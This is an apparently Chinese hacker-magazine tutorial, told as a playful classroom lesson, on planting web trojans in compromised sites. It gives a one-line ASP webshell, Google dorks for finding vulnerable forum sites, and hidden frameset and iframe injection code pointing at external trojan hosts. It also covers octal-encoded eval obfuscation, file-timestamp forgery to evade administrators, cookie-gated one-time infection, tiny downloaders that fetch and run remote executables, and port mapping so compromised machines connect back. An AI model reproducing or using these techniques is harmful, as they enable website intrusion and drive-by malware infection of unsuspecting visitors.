

图1

默认情况下生成的 `young.gif`，可以使用记事本打开，如图2。



图2

把开头的一点乱码删除后，只保留 `document.write` 之后的代码，然后将其复制到一个转换工具里，点击“给我转”，如图3。



图3

得到一段代码的八进制/十六进制结果后，把 `young.gif` 中内容改为 `eval("八进制/十六进制转换结果")` 并保存，即得到免杀后的 `young.gif`，如图4。



图4

### 二、webshell 的寻找

看到这个标题不要以为要公布“快速获取大量 webshell”的捷径。文中强调：没有什么公开漏洞能让你迅速收获大量 shell，主要还是通过持续学习最新漏洞与入侵方法来提高技术。

举例提到 Yuan520BBS 系统漏洞研究；并给出 Google 关键词 `inurl:wish.asp 管理员维护`，再通过路径调整（如把最后一个“/”改为“%5c”）定位数据库，访问示例站点路径后根据报错信息判断是否存在漏洞。

## 小鸡快跑



一句话 ASP 木马（`<%eval request("#")%>` 比作者那个 execute 好些，它插入后页面不会出错，而且长度也短）。提交后，我们就可以使用海阳顶端一句话客户端来连接数据库得到 webshell 了，如图6（这种类型的 webshell 看起来不舒服，用起来也不方便，当你找不到按钮菜单的时候，稍多按几下 TAB 键）。因此，再次重申，实践 X 档案上的文章提高技术才是获取 webshell 最快的方法。



#### 三、多彩多样的挂马方式

我们把常见的几种挂马的代码和效果都演示一遍。

##### 1. 框架法

上面我们得到的那个 shell 很特别，wish 目录下居然连默认的首页都没有，那我们就替它做做坏事，做出一个 index.asp，内容如下：

```html
<frameset rows="44,0" cols="*">
  <frame src="wish.asp" frameborder="no" scrolling="auto" noresize marginwidth="0" marginheight="0">
  <frame src="http://zhiyeqianqian.51web.cn/pc/index.htm" frameborder="no" scrolling="no" noresize marginwidth="0" marginheight="0">
</frameset>
```

这样，别人只要访问 `http://tv.godvij.com/wish/`，就会自动寻找 index.asp，而这个页面是我做出来的，它看起来和许愿页面（wish.asp）完全一样，而实际上却隐藏着木马地址。大家只需要把这个地方改成自己的网页木马地址就可以了。

##### 2. iframe 内嵌框架法与 script 包含文件结合

iframe 挂马太常见，很容易被发现，那么我们不妨在这个基础上多做些变化。

在刚才获得的 webshell 里，我们通过编辑查看 wish.asp 源码时会看到一句：`<SCRIPT src="tip.js" type=text/javascript></SCRIPT>`。这说明该页调用了 tip.js，那么我们打开 tip.js，把下面代码补到最后面：`document.write("<iframe src=http://... width=0 height=0 frameborder=0></iframe>")`。当别人访问 wish.asp 的时候，一样会中招，可是查看 wish.asp 的源码时却不会直接出现 iframe 的字样，如图7、图8。





当然，如果管理员查看 tip.js，还是会一眼看见我们的网页木马真实地址。要想让管理员没那么轻松找到我们藏马的地方，我们可以用上面加密的方式来打造挂马代码，比如把上面的代码改成：

```javascript
(164\145\40\50\42\74\151\46\162\141\155\145\40\163\162\143\75 ... )
```

这次即使管理员看到我们挂的马也会头大吧，嘿嘿！

##### 3. 传说中 99% IE 浏览器存在的漏洞

最近听说出了个新闻，测试代码如下：

```html
<h1>这是最开始显示的代码</h1>
<script type="text/jscript">
function test(){
  document.write('这是最后显示的代码')
}
window.onload=test;
</script>
<b>这也是最开始显示的代码，但是页面加载完毕后都不见了</b>
```

把它保存为 html 文件，打开后如图9所示，允许执行脚本后如图10所示。查看源码看不到最开始显示的内容，这意味着如果我们把挂马代码藏在那些位置的话，然后在 `window.onload` 里显示一个正常的页面，别人访问后，即使有疑心，查看源文件也不容易看到隐藏的猫腻。我水平不高，只想到下面的这个方法来挂马，仅供参考：



```html
<iframe src=http://.../pc/index.htm width=0 height=0 frameborder=0></iframe>
<script type="text/jscript">
function imp(){
  location.href="wish.asp";
}
window.onload=imp;
</script>
```

将以上代码保存为 index.asp，里面的网址自己换，这样人们访问 http://tv.godvij.com/wish 后，就会自动打开网页木马然后马上跳转到 wish.asp 去，一般人是注意不到的。

#### 四、状态栏的隐藏

有时候电脑或网速慢，我们会在被挂的网页状态栏看到“正在打开 http://www.muma.com/muma.htm...”这样的字样。为了把它消除掉，我们可以把网页木马整个放在被挂的站点上，然后给网页木马起个隐藏点的名字，比如这里生成的网页木马改名为 top.asp 后，就放在被挂的站点上，别人看起来状态栏里显示的就是“正在打开 top.asp...”。当然，这样做也有坏处，有时候你好不容易做了个免杀的马儿，如果全部放到了别人的站上，被管理员发现后上报给杀毒软件公司，心血就白费了。

#### 五、文件修改时间

如果发现自己的站点有异状，站长只需要让所有文件按修改时间排列，然后查看最近修改的几个文件，用备份文件覆盖还原即可恢复。因此，我们还需要将插入马儿的文件进行时间修改，或就得用到海阳顶端木马的“Shell.Application 文件浏览器”，进入站点目录后，选中我们插马的页面，单击属性，就可以修改其中的“最后修改时间”项，单击“修改”按钮即可成功，如图11。



## 六、通过 COOKIES 控制只弹一次

如果访问者访问该网站时，每刷新一个页面，木马都要弹出来一次的话，那傻子也会知道有问题了。我们应该设置好网页木马只弹出一次，这样既照顾了广大中马者的感受，同时也增大了网页木马的隐蔽性和存活时间。

```asp
<%
if (Request.Cookies("beenattack")="") then
  Response.Cookies("beenattack")="beenattack"
%>
<SCRIPT language="JavaScript">
... document.write('<iframe src=...>') ...
</SCRIPT>
<%
else
  response.end
end if
%>
```

此段代码保存为 default.asp 后，放在自己的网站里，比如 http://xxx.com/pc/default.asp。挂马的时候可以只写 http://xxx.com/pc/，这样可以减少挂马代码的长度。而且还有个好处，打过补丁的人因为 Cookies 的关系，他访问 http://xxx.com/pc/ 的时候什么都不会显示出来，从而找不到我们的真实网页木马路径。

#### 七、下载者

自从上堂课结束后，悟空接到了很多投诉电话，说 PcShare 的使用介绍得不够详细；想用灰鸽子来做网页木马，可是灰鸽子那么大，做成的网页木马下载都要半天，成功率可想而知。问悟空有没有什么好的办法。悟空只说了一句：下载者。

下载者是一个应用程序，我们可以设定它在后台自动下载某个 URL 的文件并运行，然后自动删除。这个应用程序由于要实现的功能很少，因此体积非常小，最小的下载者的体积不到 1K，用来做网页木马再适合不过了。这里推荐一款可插入 IE 进程的下载者，穿透防火墙能力很好，打开后如图12所示。



设置好指定文件的 URL 和要保存到本地的位置，单击“Build”按钮就会生成一个 Downloader.exe，体积仅为 1.5K，把它改名为 young.css 替换掉你原先的木马吧。

#### 八、IE 任意扩展名欺骗漏洞

有时候我们很辛苦地做好了一个网页，想骗别人去访问，直接发送一个类似 http://xxx.com/test.htm 这样的地址别人很可能会犹豫一下。可是如果利用 IE 任意扩展名欺骗漏洞就不一样了，其实任意扩展名的文件只要包含有 HTML 标记，它就会被 IE ...

## 小鸡快跑

浏览器解析出来。测试方法如下：把以下内容保存为 `mm.jpg` 并放到 `http://zhiyeqianqian.51web.cn/mm.jpg`。

```html

<iframe src="c:/pc/index.htm" width=0 height=0 frameborder=0></iframe>
```

其中 `photo.jpg` 是一张真正的美女图片。我们访问 `mm.jpg` 的时候，实际上看到的是被嵌入了一个 iframe 的网页木马……经常会有一些祝福网站被大家传来传去……

“铃……”下课铃声打响了，悟空满意地说道：“今天的课就到这里……”冷不丁一声巨响传来，原来是隔壁的八戒摔到了地上……“大师兄，这堂课好难啊……还要有公网 IP 才可以用……”

> （文中涉及到的 htmltool.exe、字符转义进制、下载者，光盘有收录）



### 菜鸟的疯狂之端口映射

悟空恋恋不舍地看了一眼刚刚关上的电脑……“明天就要开学上班了……”但想到今天晚上会举办过年刚开的 MC 副本大活动，决定继续魔兽的冒险……次日一早，花果山举办新年新课活动……

“本堂课是为了解决上次遗留下来的内网法术马上线而设……先讨论：什么是 IP 地址？如何区分自己在内网还是外网？”沙僧解释了 IPv4、私有地址段（10.x、172.16.x-172.31.x、192.168.x）以及通过 `ipconfig` 判断内外网。

“不行啊！猴哥！你看我电脑上执行 `ipconfig` 的结果，有 2 个 IP 地址呢！”如图 1。



解释：出现两个 IP 很常见，可能是公网与内网并存，或服务器装有两块网卡（对外公网卡、对内网卡）。随后引出为什么要学习端口映射：局域网主机经网关/NAT 共享带宽，外网不能直接访问内网主机，需要在网关做 NAT 转换。

> **小知识：** NAT 英文全称是 `Network Address Translation`，中文意为“网络地址转换”，是一种把内部私有网络地址（IP 地址）翻译成合法公网 IP 地址的技术。



图 2

假设我们入侵了一台服务器，现在给它装上了 PcShare 后门，我们自己在右边的内网里，假设为 A 机器。为了让服务器连接上我们的 8080 端口来自动上线，服务器会首先根据我们设置的 IP 地址找到我们的路由器，可是路由器本身的 8080 端口并没有任何程序来响应它。如果这时候我们在路由器上设置过了 NAT 规则，告诉路由器所有发到 8080 端口的数据都直接转交给 A 机器，这样的话，A 机器虽然在内网，也一样可以让肉鸡自动上线了。

“好了，原理介绍完毕了，现在我们要实际演示一遍，那么第二个问题就是选择任意一款常见的拨号进行配置，让内网的一台机器里可以使用灰鸽子，以肉鸡成功上线为标准。Ready？Go！”

“我来我来！”八戒看到沙僧得到一款免杀的后门后早就心痒痒了，又仗着嗓门大，赶紧跳出来要演示。

实验环境：八戒在宿舍里的电脑是 4 个人通过一个 TP-Link 路由器使用一个 ADSL 账号上网的。路由器的默认内网 IP 地址为 192.168.1.1，八戒的电脑 IP 为 192.168.1.123。通过查阅路由器说明书，八戒知道路由器允许 Web 方式管理，于是在 IE 浏览器的地址栏里输入了 192.168.1.1 并回车，结果看到图 3。

